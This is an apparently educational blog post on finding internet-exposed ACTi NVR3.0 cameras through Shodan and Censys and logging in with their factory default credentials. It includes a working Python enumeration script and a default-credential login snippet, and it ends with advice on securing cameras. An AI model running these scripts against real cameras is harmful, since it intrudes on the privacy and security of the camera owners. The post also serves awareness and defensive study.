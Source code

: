```yaml
---
title: "Accessing Unsecure Cameras"
description:
  "Explore the risks associated with poorly secured cameras and learn how
  attackers exploit default credentials to gain unauthorized access."
pubDate: "16 May 2024"
heroImage: "/blog-placeholder-1.jpg"
tags: ["Cyber Security", "IOT", "Python"]
---
```



We all know that leaving default passwords active is a bad idea, but it can be
even more risky on security cameras. With such a simple oversight you are
allowing intruders into your home or business and losing all privacy.

Despite this being such an easy fix (just change the password!), many people end
up skipping this step. This results in their "secure" cameras becoming easily
exploited by attackers.

<Alert type="warning">
  The information below is intended for educational purposes only. Never attempt
  to access any computer system without explicit permission.
</Alert>

## How Attackers Find Exposed Cameras

Using powerful search engines like Shodan and Censys, it makes finding internet
connected devices trivial. Unlike your regular search engine (eg google), these
search engines are used to find IOT devices, meaning any device connected to the
internet. We can utilize these to search for **ACTi NVR3.0 devices** - a popular
camera. If we use Censys to search for the term "NVR3.0" we can see 1000s of
results are returned.

Once these cameras have been located, an attacker can manually attempt to login
to each one using the factory default credentials (admin/123456). These factory
defaults are often left enabled as people will not change them.

But why do this manually when it can be automated?

## Automating the Search

Shodan and Censys both provide convenient APIs to search through their
databases. The API will return detailed data including: IP, open ports,
latitude, longitude, etc. Using this data makes searching easy. Here is a simple
Python script to demonstrate how the Shodan API can be used:

```python
api = Shodan(config.SHODAN_API)
search_term = 'http.html:NVR3.0'

count = api.count(search_term)['total']
for page in range(math.ceil(count/100)):
    query = api.search(query=search_term, page=page+1)
    for server in query['matches']:
        param = f"{server['ip_str']}:{server['port']}"
        location = server["location"]
        start_thread(param, "SHODAN", location["city"], location["country_name"], location["country_code"], location["longitude"], location["latitude"])

```

## Inspecting and Exploiting

Once an attacker finds a camera they are able to attempt to login. We can use
tools like Burp suite to log all HTTP requests that the browser makes and
inspect the data. When logging in we can observe a header that gets sent:

```
Authorization: Basic YWRtaW46MTIzNDU2
```

We are able to decode this base64 string to inspect the data:

```sh
$ echo YWRtaW46MTIzNDU2 | base64 --decode                                                                                                                          2ms
# admin:123456
```

The decoded string includes the username and password that we entered in the
login page. With this information an attacker can programmatically attempt to
login:

```python
r = requests.get(f"http://{server}/Media/UserGroup/login?response_format=json", headers={"Authorization": "Basic YWRtaW46MTIzNDU2" }, timeout=10)
if(r.status_code == 200):
  print("Login success")
```

We can just check the response from the login requests and check it matches the
status code "200" (meaning successful login). At this point an attacker can then
login to the camera and view it. I've put together a script that will automate
the whole process - available on my
[GitHub](https://github.com/member87/cam-finder)

## What Can Attackers Access?

Once logged in as an admin, the attacker will have full control over the
cameras. This includes:

- **Live Viewing & Playback**: Watch the cameras in real time and previous
  historical recordings. If the camera also has audio support, they would also
  be able to hear conversations.
- **Camera Management**: Rename, delete, and configure camera settings.
- **Storage Control**: Delete previous recordings and reserve all disk space to
  prevent any new recordings
- **Camera Direction**: There are a few models of cameras that will allow you to
  rotate the position, potentially watching sensitive areas.
- **User Management**: Add, delete, or modify user accounts.

## Potential Impact of Poor Security

The implications of a compromised camera system are shocking. A bad actor could
use this access for anything from petty vandalism to a physical break-in—then
delete the evidence. At the time of writing, I’ve identified over 600 exposed
cameras, many in homes and businesses.

## How to Secure Cameras (or anything IOT)

- **Default Passwords**: Any password that comes default with your device should
  be changed as soon as possible.
- **Limit Internet Exposure**: Don't make your devices available publically on
  the internet unless absolutely required. In these cases there should be
  sufficient security measures in place preventing public access.
- **IP Whitelist or VPN**: If you need remote access, limit which IPs can have
  access or use a VPN to securely connect.
